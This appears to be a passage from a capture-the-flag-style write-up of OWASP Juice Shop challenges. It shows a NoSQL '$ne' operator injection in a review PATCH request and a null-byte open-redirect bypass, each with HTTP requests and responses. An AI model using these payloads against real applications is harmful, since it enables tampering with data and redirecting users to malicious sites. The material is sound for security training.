 One item puzzles me here and it's the fact that we've wrapped `$ne` in double quotes. We need to in order to have valid JSON (and that's why I tried it), but there would not be quotes in the NoSQL syntax itself, like `{ $ne: 8 }`. The mechanism to go from our JSON to the NoSQL syntax that MarsBD sees and exactly what transformations are performed in that step are unclear to me. Also, again we can't just wrap the whole thing in quotes or it's just interpreted as a string.

```
PATCH /rest/product/reviews HTTP/1.1
[...]

{"id":"{$ne: 8}","message":"n0j was here"}
```

```
HTTP/1.1 200 OK
[...]

{"modified":0,"original":[],"updated":[]}
```

# Redirects Tier 2
> Wherever you go, there you are.

This one was a little strange in that I 'solved' it in a way that doesn't actually work. Recall there are links that use redirection in the merchanidise area at the bottom of the Your Basket screen. They look like this,

```
http://juice.shop:3000/redirect?to=http://shop.spreadshirt.com/juiceshop
```

Playing with null characters again,

```
GET /redirect?to=http://google.com%00http://shop.spreadshirt.com/juiceshop HTTP/1.1
[...]
```

```
HTTP/1.1 302 Found
X-Powered-By: Express
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Location: http://google.com%00http://shop.spreadshirt.com/juiceshop
Vary: Accept
Content-Type: text/html; charset=utf-8
Content-Length: 158
Date: Thu, 09 Aug 2018 00:11:08 GMT
Connection: close

<p>Found. Redirecting to <a href="http://google.com%00http://shop.spreadshirt.com/juiceshop">http://google.com%00http://shop.spreadshirt.com/juiceshop</a></p>
```
